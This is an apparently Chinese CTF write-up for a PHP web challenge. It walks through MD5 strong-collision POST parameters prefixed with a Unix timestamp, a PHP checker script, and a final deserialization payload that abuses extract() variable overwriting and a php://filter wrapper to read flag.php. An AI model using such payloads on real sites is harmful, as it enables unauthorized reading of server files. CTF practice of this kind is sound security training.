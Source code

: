 ## 老狼老狼几点了

首先进入页面有一个输入框

![image-20230521101153073](C:\Users\cby20\AppData\Roaming\Typora\typora-user-images\image-20230521101153073.png)

但没发现什么利用方法

直接扫目录文件

发现有个guess_time.php

![image-20230521101244542](C:\Users\cby20\AppData\Roaming\Typora\typora-user-images\image-20230521101244542.png)

分析一下

传递了两个POST参数经过两个if判断

第一个if

让我们判断MD5

经典强碰撞

```
param1=%28%CF%8A%A3%C9D%DEXW%21E%8E%84.%EA%82.%9D-%27%8C%C7%21%3E%29BC%C120%16%D0a%E6%B9%E4Z%14%3A%21kn%C3%A1%E15%99c%BA%CCC%5B%86%CD%5B%12%5E6%A2%94%EB%A8%8D%8F2%9C%08%18d%EAF%DC%04%B2Y%1E%1E%A3%F3%F5%9E%94%16%C6%065%7B%0C%1A%09%EF5%CA%0B%81%FE%AD%0F%B3%95%AA%CFv%07%861%C5q%8F%7C%D9%5D%CDT%0D%D3X%D8%23%90%A2%9BOu%ACc%9DK
param2=%28%CF%8A%A3%C9D%DEXW%21E%8E%84.%EA%82.%9D-%A7%8C%C7%21%3E%29BC%C120%16%D0a%E6%B9%E4Z%14%3A%21kn%C3%A1%E1%B5%99c%BA%CCC%5B%86%CD%5B%12%5E6%A2%14%EB%A8%8D%8F2%9C%08%18d%EAF%DC%04%B2Y%1E%1E%A3%F3%F5%9E%94%16F%065%7B%0C%1A%09%EF5%CA%0B%81%FE%AD%0F%B3%95%AA%CFv%07%861%C5q%8F%FC%D8%5D%CDT%0D%D3X%D8%23%90%A2%9BO%F5%ACc%9DK
```

第二个if需要让p1的前10位等于当前unix的时间戳

![image-20230521102640498](C:\Users\cby20\AppData\Roaming\Typora\typora-user-images\image-20230521102640498.png)

那我们的思路就是当前时间戳+%00+md5强碰撞

```
<?php

$param1='ddd%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%C3%60%DA%F5%17%CEwA%C9%05%C6%0C%CDD%10%0FS%AA%EA%E4%CE%B3%FBd.f%3A%B9%CA%9D%3B%9B%E3%1D%F7%CBN%25%18%84%8F%E4%F0%3C%D0%B5%A6EC%0D%81%3FJ%BA%7D%DC%FA%A3%91H%C7Bs%B8-I%07%F5%98%D2E%8B%93%DBU%B2%81%7F%E4fN%9Ax%EA%FB%BC%A0%21%E1%BB%F2%C8%DCp%7D%9E%BF%3A%96%BE%1Dp%87%13%C3%AB%9D%EF%8A1h%08%00%DC%B3%1F%29%91%0Ai%1C%E1%F0N7%0D%A1%B7';
$param2='ddd%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%C3%60%DA%F5%17%CEwA%C9%05%C6%0C%CDD%10%0FS%AA%EAd%CE%B3%FBd.f%3A%B9%CA%9D%3B%9B%E3%1D%F7%CBN%25%18%84%8F%E4%F0%3C%D05%A7EC%0D%81%3FJ%BA%7D%DC%FA%A3%91%C8%C7Bs%B8-I%07%F5%98%D2E%8B%93%DBU%B2%81%7F%E4fN%9Axj%FB%BC%A0%21%E1%BB%F2%C8%DCp%7D%9E%BF%3A%96%BE%1Dp%87%13%C3%AB%9D%EF%8A%B1g%08%00%DC%B3%1F%29%91%0Ai%1C%E1%F0%CE7%0D%A1%B7';
echo urldecode($param1)."\n";
echo urldecode($param2)."\n";
if(md5(urldecode($param1))===md5(urldecode($param2))&&$param1!==$param2)
{
    echo "yes"."\n";
}
else
{
    echo "no"."\n";
}
```

![image-20230521102956878](C:\Users\cby20\AppData\Roaming\Typora\typora-user-images\image-20230521102956878.png)

至于需要多少长度的%00这个是根据当前时间来确定的这里不再过多叙述

后面就是反序列化的内容

直接__destruct方法进入然后调call_func方法

最后目的进入call_func方法让function==hack进入else if中然后

使用php伪协议来读取文件

这里我们可以利用extract的变量覆盖漏洞

最后payload如下



```
param1=1684637400%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%F2%BC%C0%96C6b%3C%F8r%91%94K%BB%5E%1C%B2%7E%8Cr%FC%A3x%153F%3B%F9%AA%7D%22%DFo%0B%0E%D0%F2%D2%D0%1D%8B%22n%7B7%FAgS%B7%B3%8C%F7%82%13N%60%90%D7a%D3%1D%EFG%99%D0L%CBP%85%B3%EAY%0D%D5v%B5%D4F%18%F8%D9%3F%F2o%60%5BC%F9%C9%B30x%16%60%88%C7%CB%5D%02h%97%C7%02%7C9%02%86%9B%88%E8%ED%C9%A4%EA%03QO%D4%BAn%0Ft%3C%AA%B7%C6%CC%9B
&param2=1684637400%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%F2%BC%C0%96C6b%3C%F8r%91%94K%BB%5E%1C%B2%7E%8C%F2%FC%A3x%153F%3B%F9%AA%7D%22%DFo%0B%0E%D0%F2%D2%D0%1D%8B%22n%7B7zhS%B7%B3%8C%F7%82%13N%60%90%D7aS%1D%EFG%99%D0L%CBP%85%B3%EAY%0D%D5v%B5%D4F%18%F8%D9%3F%F2%EF%60%5BC%F9%C9%B30x%16%60%88%C7%CB%5D%02h%97%C7%02%7C9%02%86%9B%88h%ED%C9%A4%EA%03QO%D4%BAn%0Ft%3C%2A%B7%C6%CC%9B
&_SESSION[a]=base64base64base64
&_SESSION[bbb]=;s:4:"file";s:62:"php://filter/read=convert.iconv.utf-8.utf-16/resource=flag.php";s:8:"function";s:4:"hack";s:9:"function1";s:4:"hack";}
```

成功读取到flag

![image-20230521105312437](C:\Users\cby20\AppData\Roaming\Typora\typora-user-images\image-20230521105312437.png)